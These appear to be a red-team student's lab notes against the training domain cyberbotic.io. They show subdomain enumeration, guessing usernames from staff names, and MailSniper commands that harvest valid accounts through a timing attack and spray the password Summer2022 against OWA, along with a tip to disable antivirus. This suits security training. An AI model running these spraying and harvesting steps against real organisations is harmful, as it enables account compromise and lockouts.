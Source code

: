 
We discovered the internal OWA Exchnage Server. We are in a assume breach scenario
```
~/dnscan$ ./dnscan.py -d cyberbotic.io -w subdomains-100.txt
[*] Processing domain cyberbotic.io
---SNIP---
172.67.205.143 - www.cyberbotic.io
104.21.90.222 - www.cyberbotic.io
10.10.15.100 - mail.cyberbotic.io
```

## Password Spraying
Patterns such as MonthYear (August2019), SeasonYear (Summer2019) and DayDate (Tuesday6) are very common.

> [!tip] 
>   Be cautious of localisations, e.g. Autumn vs Fall. 

Usernames could be extractet from various sources as seen in the external reconisance, mostly Linkedin or Websites. In this excercise the target has a "Our team" section: 

![[Pasted image 20230324090920.png]]

We can come up with this list:


```
Bob Farmer
Isabel Yates
John King
Joyce Adams
```

Use [namehash.py](https://gist.github.com/superkojiman/11076951) to create  alist of possible usernames based on the names of the people.

```
bobfarmer
farmerbob
bob.farmer
farmer.bob
farmerb
```

> [!hint] 
> We could potentially skip this step if we knew the email address format from somewhere like hunter.io 

Two excellent tools for password spraying against Office 365 and Exchange are [MailSniper](https://github.com/dafthack/MailSniper) and [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit). import MailSniper.ps1. (Disable AV first)

```
PS C:\Users\Attacker> ipmo C:\Tools\MailSniper\MailSniper.ps1
```


Enumerate the NetBIOS name of the target domain with `Invoke-DomainHarvestOWA`.

```
PS C:\Users\Attacker> Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io
```

Get the netbios name with:

```
Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io
```


`Invoke-UsernameHarvestOWA` uses a timing attack to validate which (if any) of these usernames are valid.
 
```
Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
```

MailSniper can spray passwords against the valid account(s) identified using, Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS).

```
PS C:\Users\Attacker> Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022
```


 > [!OPSEC]
 > In the real world, be aware that these authentication attempts may count towards the domain lockout policy for the users.  Too many attempts in a short space of time are not only loud but may also lock accounts out.
>  
 
 
We can do further actions using MailSniper with valid credentials, such as downloading the global address list.

```
PS C:\Users\Attacker> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt
```

## Phishing
